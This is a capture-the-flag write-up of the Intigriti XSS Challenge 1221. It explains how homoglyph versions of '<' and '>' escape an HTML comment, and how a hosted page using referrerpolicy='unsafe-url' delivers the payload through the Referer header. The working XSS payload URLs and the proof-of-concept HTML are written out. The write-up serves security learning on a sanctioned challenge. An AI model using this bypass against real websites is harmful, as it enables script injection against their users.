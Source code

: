 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
date:       2021-12-27 16:09:00
summary:    Homoglyph XSS
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation
 
---
```


## Let's start
The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like `<script>alert(document.domain)</script>` to understand where the starting point was.
```html

<h4 id="punchline">Result:  alert(document.domain) 
 <!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= &gt;script&lt;alert(document.domain)&gt;/script&lt;&open=on -->
</h4>

```

From the source, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like `--><script>alert(document.domain)</script>` we can escape from the comment and execute our xss payload, 
but there is a problem, as you can see from the screen  the characters `<` and `>` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server.
this is really important because we can use this type of characters to bypass the control on `<` and `>`

Here you can find some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt


## Final Payload

To build the final payload I simply used Homoglyph characters regarding the `<` and the `>`, in this way I was able to close the html comment and escape in order to execute XSS.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

To be sure, I url encoded the whole payload.

`https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

Just to be clear, clicking the link will not execute the xss, but you will need to enter `--﹥﹤script﹥alert(document.domain)﹤/script﹥` inside the input field ( we will see after how to not make this case a self-xss )

```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>

```


As you can see, I was able to get out of the Html comment, and execute my payload.


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html

<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>


```

The only interesting part is the `referrerpolicy="unsafe-url"` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

`https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5`

